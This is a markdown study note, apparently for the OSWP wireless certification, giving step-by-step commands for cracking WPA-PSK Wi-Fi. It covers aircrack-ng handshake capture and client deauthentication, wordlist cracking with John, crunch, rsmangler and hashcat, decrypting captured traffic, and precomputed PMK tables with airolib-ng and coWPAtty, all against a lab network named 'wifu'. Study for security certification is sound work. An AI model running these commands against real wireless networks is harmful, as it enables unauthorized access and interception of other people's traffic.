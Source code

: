 ```yaml
---
{"dg-publish":true,"permalink":"/2-oswp/4-psk-cracking/"}
---
```


------------
### Crack walkthrough:
1. Sniff nearby APs:
```
sudo airodump-ng wlan0mon
```
2. Tune dump with channel and SSIDs:
```
sudo airodump-ng -c 3 -w wpa --essid wifu --bssid 34:08:04:09:3D:38 wlan0mon
```
3. Start deauth:
```
sudo aireplay-ng -0 1 -a 34:08:04:09:3D:38 -c 00:18:4D:1D:A8:1F wlan0mon
```
- If not captures handshake try without "-c"
4. Crack handshake:
```
aircrack-ng -w /usr/share/john/password.lst -e wifu -b 34:08:04:09:3D:38 wpa-01.cap
```
5. Decrypt traffic:
```
airdecap-ng -b 34:08:04:09:3D:38 -e wifu -p 12345678 wpa-01.cap
```

---
### John cracking:
```
john --wordlist=/usr/share/john/password.lst --rules --stdout | aircrack-ng -e wifu -w - ~/wpa-01.cap
```

----------------
### Crunch:
- Generate password lists
- Usage:
```
crunch <minlength> <maxlength> <characters> -t <pattern> -p <words>
```
- Example:
```
crunch 11 11 0123456789 -t password@@@
-
Crunch will now generate the following number of lines: 1000
password000
password001
password002
password003
```
- Example 2:
```
crunch 5 5 -t ddd% | aircrack-ng -e wifu crunch-01.cap -w -
```

--------
### RSMangler
- Ruby script for modifying wordlists in all ways
- Usage:
```
rsmangler --file wordlist.txt --min 12 --max 13 --output mangled.txt
```
Use with aircrack:
```
rsmangler --file wordlist.txt --min 12 --max 13 | aircrack-ng -e wifu rsmangler-01.cap -w -
```

-----
### Hashcat
- List cracking devices:
```
hashcat -I
```
- Run benchmark for mode:
```
hashcat -b -m <mode>
```
- Specify device:
```
hashcat -d <device-nr>
```
- Specify device type (CPU, GPU, FPGSA, DSP etc.):
```
hashcat -D <device-type>
```
- Convert .cap to hashcat-compatible:
```
/usr/lib/hashcat-utils/cap2hccapx.bin wifu-01.cap output.hccapx  
```
- Crack the hash:
```
hashcat -m 2500 output.hccapx /usr/share/john/password.lst  
```

------------
### Airolib-ng
- Tool to pre-generate PMKs which lets aircrack-ng check more than 50000 hashes/second
- Usage:
1. Create file containing ESSID of target AP:
```
echo wifu > essid.txt
```
2. Import ESSID into database:
```
airolib-ng <db-name>.sqlite --import essid essid.txt
```
3. List info about DB:
```
airolib-ng <db-name>.sqlite --stats
```
4. Import passwords to DB:
```
airolib-ng <db-name>.sqlite --import passwd /usr/share/john/password.lst
```
5. Process DB and generate PMKs:
```
airolib-ng <db-name>.sqlite --batch
```
6. Initiate crack:
```
aircrack-ng -r <db-name>.sqlite wpa1-01.cap
```

---------
### coWPAtty:
- Similar to airolib-ng, creates rainbow tables for ESSIDs
- Usage:
1. Generate table:
```
genpmk -f /usr/share/john/password.lst -d <outfile> -s <essid>
```
2. Crack with coWPAtty:
```
cowpatty -r wpajohn-01.cap -d <outfile> -s wifu
```

